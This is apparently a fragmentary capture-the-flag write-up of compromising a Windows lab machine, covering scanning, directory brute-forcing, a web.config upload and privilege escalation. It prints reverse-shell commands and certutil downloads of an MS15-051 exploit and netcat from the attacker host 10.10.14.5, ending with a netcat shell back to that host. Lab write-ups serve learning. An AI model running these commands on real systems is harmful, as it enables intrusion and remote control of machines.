

nmap scan results

https://www.hackingarticles.in/command-and-control-guide-to-merlin/
using this side as the home page displayed this image

coz merlin was mentioned in page source
used dirbuster and found following directories

so well create web.config file and upload it
invoke -Reverse -IPAddress 10.10.14.5 -Port 4444

https://ech1.netlify.app/htb/easy/19
certutil -urlcache -f http://10.10.14.5:8000/ms15-051.exe ech0_privesc.exe
certutil -urlcache -f http://10.10.14.5:8000/netcat-1.11/nc64.exe nc64.exe
./ech0_privesc.exe "c:\windows\temp\nc64.exe -e cmd 10.10.14.5 9999"